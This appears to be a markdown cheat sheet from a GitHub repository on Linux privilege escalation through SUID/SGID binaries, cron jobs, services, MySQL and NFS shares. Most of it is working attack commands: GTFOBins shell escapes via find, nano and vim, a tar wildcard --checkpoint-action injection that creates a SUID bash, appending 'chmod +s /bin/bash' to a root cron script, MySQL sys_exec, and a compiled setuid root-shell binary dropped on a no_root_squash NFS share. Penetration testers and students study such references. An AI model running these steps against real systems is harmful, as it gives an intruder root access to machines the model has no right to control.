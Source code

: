 # Programs, Jobs and Services

This section covers how to identify and exploit misconfigured programs, scheduled jobs, and services on Linux systems.

## SUID/SGID Binaries

SUID (Set User ID) and SGID (Set Group ID) binaries run with the privileges of the file owner/group.

### Finding SUID/SGID Binaries

```bash
# Find SUID binaries
find / -type f -perm -4000 -ls 2>/dev/null

# Find SGID binaries
find / -type f -perm -2000 -ls 2>/dev/null

# Find both SUID and SGID binaries
find / -type f -perm -u=s,g=s -ls 2>/dev/null
```

### Common SUID Binaries to Look For

- `sudo`
- `su`
- `passwd`
- `newgrp`
- `gpasswd`
- `chsh`
- `at`
- `mount`
- `umount`
- `pkexec`
- `find`
- `nano`
- `vim`
- `bash`

### Exploiting SUID Binaries

#### Using GTFOBins

Always check GTFOBins (https://gtfobins.github.io/) for known ways to exploit common Linux binaries.

Examples:

1. Using `find` with SUID:
```bash
find . -exec /bin/sh -p \; -quit
```

2. Using `nano` with SUID:
```bash
nano
^R^X
reset; sh 1>&0 2>&0
```

3. Using `vim` with SUID:
```bash
vim -c ':shell'
```

## Cron Jobs

Cron jobs are scheduled tasks that run automatically at specified intervals.

### Finding Cron Jobs

```bash
# System-wide cron jobs
cat /etc/crontab
ls -la /etc/cron.d/
ls -la /etc/cron.daily/
ls -la /etc/cron.hourly/
ls -la /etc/cron.monthly/
ls -la /etc/cron.weekly/

# User cron jobs
crontab -l
```

### Exploiting Cron Jobs

1. Look for writable scripts executed by cron:
```bash
find /etc/cron* -type f -writable
```

2. Check for wildcards in cron jobs (command injection):
```bash
# If cron job uses tar with wildcards (e.g., tar czf /backup/*.tar /var/www/*)
cd /var/www/
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > exploit.sh
chmod +x exploit.sh
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh exploit.sh"
# Wait for cron to execute
/tmp/bash -p
```

3. Example of injecting into a cron job script:
```bash
# If you find a writable script run by root in cron
echo 'chmod +s /bin/bash' >> /path/to/writable_cron_script.sh
# Wait for cron to execute
/bin/bash -p
```

## Services

### Identifying Running Services

```bash
# List running services
ps aux
service --status-all
systemctl list-units --type=service

# Check specific service status
service apache2 status
```

### Service Misconfigurations

1. Check for writable service files:
```bash
find /etc/systemd/system -writable
find /lib/systemd/system -writable
find /usr/lib/systemd/system -writable
```

2. Check for writable service executables:
```bash
systemctl status service_name
# Note the path of the executable from the output
ls -la /path/to/service_binary
```

### MySQL Running as Root

If MySQL is running as root, it can be exploited:

```bash
mysql -u root -p
# After logging in
SELECT sys_exec('chmod +s /bin/bash');
exit
/bin/bash -p
```

## NFS Shares

Network File System (NFS) shares can be exploited if misconfigured.

### Identifying NFS Shares

```bash
# On the target
cat /etc/exports
showmount -e localhost

# From another machine
showmount -e target_ip
```

### Exploiting no_root_squash

If a share has the `no_root_squash` option, you can create SUID binaries on it:

```bash
# From attacker machine (as root)
mkdir /tmp/nfs
mount -t nfs target_ip:/vulnerable/share /tmp/nfs
cd /tmp/nfs
cat > exploit.c << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
EOF
gcc exploit.c -o exploit
chmod +s exploit
# Now on the target, execute /vulnerable/share/exploit
```

## Additional Resources

- [GTFOBins](https://gtfobins.github.io/) - Unix binaries that can be exploited
- [HackTricks - Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [LOLBAS](https://lolbas-project.github.io/) - Similar to GTFOBins, but for Windows 
